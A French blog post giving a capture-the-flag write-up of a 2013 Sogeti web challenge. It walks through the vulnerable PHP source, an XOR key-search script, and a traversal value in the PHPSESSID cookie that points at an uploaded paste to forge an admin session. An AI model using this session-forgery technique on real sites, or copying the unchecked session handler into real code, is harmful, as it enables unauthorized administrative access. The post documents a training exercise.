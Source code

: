 ```yaml
---
layout: post
title: Writeup challenge Sogeti
description: Un petit writeup pour le challenge réalisé à l'occasion d'un "security event" organisé par Sogeti.
photo: challenge_sogeti.png
categories: articles
tags: [hacking]
comments: true
---
```


Dans cet article je vais décrire les étapes nécessaire à la résultion d'un challenge réalisé à l'occasion d'un "security event" organisé par Sogeti le 25 juin 2013.

Sur la page d'accueil le message suivant est présent :

>Ce site web vous propose de stocker vos messages en ligne tout en les chiffrant à l'aide d'un algorithme inviolable.
>Votre but est d'accéder à la zone d'administration du site, une partie du code source est aussi disponible

## Un algorithme inviolable ? ##

Première étape, il va s'intéresser à cette algorithme soit disant inviolable.

Code de la page *add.php* :

{% highlight php linenos %}
<?php

include 'includes/init.php';

if(isset($_POST['message']) && isset($_POST['password']) && strlen($_POST['password']) >= 5)
{
    $name_file = md5(microtime());
    $cipher = cipher_it($_POST['message'], stripslashes($_POST['password']));
    $f = fopen(PASTE_DIRECTORY.$name_file, 'w+');
    fwrite($f, $cipher);
    fclose($f);
    header("Location: show.php?id=".$name_file."&password=".urlencode(stripslashes($_POST['password'])));
    exit;
}

$pagename = "add";
$title = "Nouveau message";
include 'includes/header.php';
?>
{% endhighlight %}

La fonction utlisée pour encoder le message est *cipher_it* et prend en argument le message ainsi qu'un mot de passe pour l'encoder.

Cette même fonction est utilisée pour décoder le message :

{% highlight php linenos %}
<?php

include 'includes/init.php';

if(!isset($_GET['id']) || !isset($_GET['password']) || preg_match("/^[0-9a-f]{32}$/", $_GET['id']) == false)
{
    header("Location: index.php");
    exit;
}

if(!is_file(PASTE_DIRECTORY.$_GET['id']))
{
    header("Location: index.php");
    exit;
}

$f = fopen(PASTE_DIRECTORY.$_GET['id'], "rb");
$content = cipher_it(fread($f, filesize(PASTE_DIRECTORY.$_GET['id'])), $_GET['password']);
fclose($f);

$pagename = "show";
$title = "Voir un message";
include 'includes/header.php';

    echo "<fieldset class=\"event_form\" style='text-align:left;'><pre style='background:transparent;'>".htmlspecialchars($content)."</pre></fieldset>";

include 'includes/footer.php';
?>
{% endhighlight %}

Cela signifie que si l'on applique deux fois la fonction permettant d'encoder le message avec le même mot de passe, on retombe sur le message d'origine. On pense alors à la fonction *xor* souvent utilisée en crypto et qui possède cette propriété. De plus, on observe qu'il est possible d'accéder au message chiffré car la constante *PASTE_DIRECTORY* est définie dans le fichier *consts.php*.

{% highlight php %}
<?php
define('PASTE_DIRECTORY', __DIR__.'/../pastes/');
?>
{% endhighlight %}

Les fichiers seront donc accessibles à partir de cette adresse :

    http://217.109.132.34/challenge/pastes/[MD5]

On va faire un petit test pour vérifier cette hypothèse. Si on chiffre le message test1 avec la clé test1 on se retrouve avec cette url :

    http://217.109.132.34/challenge/show.php?id=56499aff7b85dd3778f3572b1b822176&password=test1

Pour accéder au message chiffré il faut se rendre à l'adresse suivante :

    http://217.109.132.34/challenge/pastes/56499aff7b85dd3778f3572b1b822176

Quand on ouvre le fichier avec un éditeur de texte on se retrouve avec que des zéros :

    0000 0000 00

C'est donc bien la fonction *xor* qui est utilisée pour chiffrer les messages. On est donc désormais en mesure de créer des fichiers sur le serveur dont on maîtrise le contenu.

## Accès à la page d'administration ##

L'objectif premier de ce challenge est d'accéder à la page d'administration, jeton un coup d'oeil au code source :

{% highlight php linenos %}
<?php

include 'includes/init.php';

$pagename = "admin";
$title = "Administration";
include 'includes/header.php';

if(!isset($_SESSION['admin']) || $_SESSION['admin'] !== true)
{
    header("Location: index.php");
    exit;
}

define('ADMIN', true);
include 'admin_ok.php';

include 'includes/footer.php';
?>
{% endhighlight %}

On remarque qu'il n'est possible d'accéder à la page d'administration que si la variable de session admin est à true. Il nous faudrait donc un moyen nous permettant de manipuler la session.

## Gestion des sessions ##

Intéressons nous maintenant aux fichiers *init.php* et *class_session.php* :

{% highlight php linenos %}
<?php
class SuperSessionHandler{
    private $savePath;

    public function open($savePath, $sessionName){
        $this->savePath = $savePath;
        if (!is_dir($this->savePath)) {
            mkdir($this->savePath, 0777);
        }
        return true;
    }

    public function close(){
        return true;
    }

    public function read($id){
        return (string)@file_get_contents("$this->savePath/$id");
    }

    public function write($id, $data){
        return file_put_contents("$this->savePath/$id", $data) === false ? false : true;
    }

    public function destroy($id){
        $file = "$this->savePath/$id";
        if (file_exists($file)) {
            unlink($file);
        }
        return true;
    }

    public function gc($maxlifetime){
        foreach (glob("$this->savePath/*") as $file) {
            if (filemtime($file) + $maxlifetime < time() && file_exists($file)) {
                unlink($file);
            }
        }

        return true;
    }
}
?>
{% endhighlight %}

{% highlight php lineos %}
<?php

include 'includes/fonctions.php';
include 'includes/consts.php';
include 'includes/class_sessions.php';

error_reporting(0);

$s = new SuperSessionHandler();
session_save_path(__DIR__.'/../sessions/');
session_set_save_handler (
        array(&$s, 'open'),
        array(&$s, 'close'),
        array(&$s, 'read'),
        array(&$s, 'write'),
        array(&$s, 'destroy'),
        array(&$s, 'gc')
        );
session_start();
?>
{% endhighlight %}

On remarque qu'une classe a été crée permettant de redéfinir la manière dont seront stockées les sessions, les sessions sont stockée dans le dossier *sessions*. Pour accéder à la session il faut se rendre à l'adresse :

    http://217.109.132.34/challenge/sessions/[PHPSESSID]

Si on regarde de plus près la fonction *read*, il s'avère que le paramètre *id*n'est pas du tout contrôlé !

{% highlight php %}
<?php
    public function read($id){
        return (string)@file_get_contents("$this->savePath/$id");
    }
?>
{% endhighlight %}

On est donc en mesure de choisir le fichier qui sera utilisé comme session est modifiant le PHPSESSID.

## Résolution de l'épreuve ##

Si on récapitule :
-   Il nous est possible de créer sur le serveur un fichier au contenu arbitraire
-   Pour accéder à la page d'administration il faut modifier sa session
-   On a de la chance la gestion des sessions est personnalisée

On va donc crée un message chiffré qui sera utilisé comme fichier de session afin de se faire passer pour l'admin. Le contenu du fichier de session avec la variable admin à true ressemble à ça :

    admin|b:1;

Pour obtenir le message chiffré j'ai créé un petit script qui me génère une clé afin que le premier texte chiffré ne contienne que des caractère imprimables.

{% highlight php lineos %}
<?php
function xor_this($string,$key) {
 // Our plaintext/ciphertext
 $text =$string;

 // Our output text
 $outText = '';

 // Iterate through each character
 for($i=0;$i<strlen($text);)
 {
     for($j=0;($j<strlen($key) && $i<strlen($text));$j++,$i++)
     {
         $outText .= $text{$i} ^ $key{$j};
         //echo 'i='.$i.', '.'j='.$j.', '.$outText{$i}.'<br />'; //for debugging
     }
 }
 return $outText;
}

function generateRandomString($length = 10) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, strlen($characters) - 1)];
    }
    return $randomString;
}

while(1){
    $key =generateRandomString();
    if(ctype_print(xor_this('admin|b:1;',$key))){
        echo $key."<br/>";
        echo ctype_print(xor_this('admin|b:1;',$key));
        die();
    }
}
?>
{% endhighlight %}

Le principe est simple je génère une chaine de caractère aléatoire de même taille que le texte à chiffrer et je vérifie que le texte obtenu en sortie est constitué uniquement de caractère imprimables avec la fonction *ctype_print*.

Clés qui fonctionnnent :

    Y3BFOWOXlV
    KYNZAPHCcC
    GZV2KSEpds

Une fois que l'on a la clé il suffit de chiffrer le message une première fois avec la clé, pour chiffrer à nouveau le résultat avec cette même clé.

    Clé     : FJQ5VPSStf
    Message : admin|b:1;
    Cipher  : '.<\8,1iE]

    Clé     : FJQ5VPSStf (clé)
    Message : '.<\8,1iE] (cipher)
    Cipher  : admin|b:1;

On se rend à l'adresse du message chiffré et on retrouve bien notre message d'origine

Il ne reste plus qu'a changé la valeur du *PHPSESSID* pour qu'il pointe sur notre message. Pour cela j'ai utilisé l'extension "Edit this cookie" pour Chrome et j'ai remplacé la valeur du *PHPSESSID* par :

    ../pastes/2790cdae372837fbc4347f63990bda54

Et voila si l'on se rend sur la page d'administration le message affiché est désormais :

>Félicitations !
>Le message caché est :
>Si tu es arrivé(e) jusque là c'est que tu peux aller jusqu'Issy !

Au final une épreuve pas très compliquée mais intéressante :)

